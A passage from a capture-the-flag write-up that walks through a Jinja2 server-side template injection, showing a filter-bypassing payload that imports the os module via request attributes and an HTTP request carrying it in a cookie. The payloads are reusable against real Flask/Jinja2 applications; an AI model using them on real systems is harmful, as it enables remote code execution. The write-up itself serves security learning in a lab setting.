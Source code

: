 ![](https://github.com/siunam321/CTF-Writeups/blob/main/Grey-Cat-The-Flag-2023-Qualifiers/images/Pasted%20image%2020230521125739.png)

Nice!! Now that we dynamically imported the `os` module, we can now invoke it's methods to execute OS command.

**But, we can't just use the following payload to invoke `os` module method:**
```python
request|attr(request.args.a)|attr(request.args.b)|attr(request.args.c)(request.args.d)|attr(request.args.e)(request.args.f)(request.args.g).(request.args.h)
```

In Jinja2, we can assign variables via `{% set <variable_name> = <value> %}`.

**So, let's assign the `os` module to `os` variable!**
```http
GET /?service=adminpage&a=application&b=__globals__&c=__getitem__&d=__builtins__&e=__getitem__&f=__import__&g=os HTTP/1.1
Cookie: user={% set os = request|attr(request.args.a)|attr(request.args.b)|attr(request.args.c)(request.args.d)|attr(request.args.e)(request.args.f)(request.args.g) %} {{os}}
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Grey-Cat-The-Flag-2023-Qualifiers/images/Pasted%20image%2020230521130153.png)
